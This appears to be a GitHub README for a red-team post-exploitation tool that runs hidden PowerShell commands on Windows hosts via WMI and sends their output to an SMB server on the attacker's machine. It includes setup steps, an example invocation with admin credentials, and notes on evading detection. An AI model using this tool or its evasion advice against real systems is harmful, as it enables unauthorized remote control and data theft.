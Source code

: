 # WMI-Whisper: Lightweight Post-Exploitation Framework (WMI + PowerShell + SMB)

A clean, minimal remote access toolkit leveraging native Windows features — WMI for code execution and authenticated SMB for output retrieval. Built for red teamers, researchers, and students.

> 🛡️ No dropped binaries, no `cmd.exe`, no noisy services — just pure tradecraft.

---

## ✨ Features
- ✔️ Executes commands remotely via `Win32_Process.Create`
- ✔️ Uses `powershell.exe -WindowStyle Hidden` 
- ✔️ Captures output via authenticated SMB share
- ✔️ Launches its own internal SMB server
- ✔️ No third-party payloads or shellcode
- ✔️ Compatible with modern Windows (10/11)


---

## 🚀 Usage

This section walks you through setting up the environment, installing dependencies, and running **WMIWhisper**.

---
### 🧱 Requirements 

Before running the tool, make sure the following are in place:

- 🐧 **Linux system** (tested on Kali Linux)
- 🐍 **Python 3.8+**
- 📡 Target Windows machine must:
  - Be accessible over the network
  - Allow WMI/DCOM traffic (port 135 + dynamic RPC)
  - Allow outbound SMB (port 445) to your attacker machine
  - Use credentials with **admin or WMI privileges**

---

### ⚙️ Environment Setup (First Time Only)

I highly recommend using a **Python virtual environment** to keep your system clean:

```bash
# 1. Update your system
sudo apt update

# 2. Install Python, pip, and venv
sudo apt install python3 python3-pip python3-venv -y

# 3. Create and activate a virtual environment
python3 -m venv ~/wmienv
source ~/wmienv/bin/activate

```

### 📦 Install Dependencies (Impacket)

```bash
# 4. Clone the Impacket repository
git clone https://github.com/fortra/impacket.git

# 5. Navigate into the Impacket directory
cd impacket

# 6. Install Impacket and all required packages
pip install .
```

### 📂 Confirm impacket-smbserver is Available
Check that the impacket-smbserver script was installed correctly:
```bash 
which impacket-smbserver
```
You should see a valid path (like `/usr/local/bin/impacket-smbserver`). If not, ensure you're inside the virtual environment and that installation completed successfully.

---

### 📥 Clone This Repository

Now that Impacket is installed, clone the WMIWhisper project:

```bash
# Go back to your workspace (outside impacket/)
cd ~
git clone https://github.com/DEKOKSS/WMI-Whisper
cd WMI-Whisper
```

### ▶️ Running the Tool
Inside the cloned project directory:
```bash
python3 whisper.py <TARGET_IP> <USERNAME> <PASSWORD> --domain <DOMAIN_NAME> --lhost <YOUR_KALI_IP>
```
| Arg      | Description                         |
| -------- | ----------------------------------- |
| TARGET   | Remote Windows IP                   |
| USERNAME | Admin or WMI-capable user           |
| PASSWORD | Account password                    |
| --domain | Domain (leave blank for local user) |
| --lhost  | Your IP for receiving output (SMB)  |

### 📝 Example
```bash
python3 whisper.py 192.168.0.152 adminuser P@ssw0rd123 --domain pentestlab.local --lhost 192.168.0.186
```
## 📂Output

- Logs are saved in: `/tmp/dropzone/`
- Each command generates: `result_<timestamp>.log`
- Output is pulled directly via SMB

## 🛡️OPSEC Notes

- No `cmd.exe /c` — common alert signature
- `powershell.exe -WindowStyle Hidden` used for execution
- SMB authentication avoids Windows 10/11 guest access blocks
- No on-disk payloads or artifacts

## 📸 DEMO
![GhostWMIC Demo](extra/whisper.gif)

## ✅ Legal & Ethics
This project is intended strictly for educational and authorized testing purposes.
Do not use it against systems you do not own or have explicit permission to test.


- Based on [Impacket](https://github.com/fortra/impacket)

- Built by a cybersecurity researcher and student



















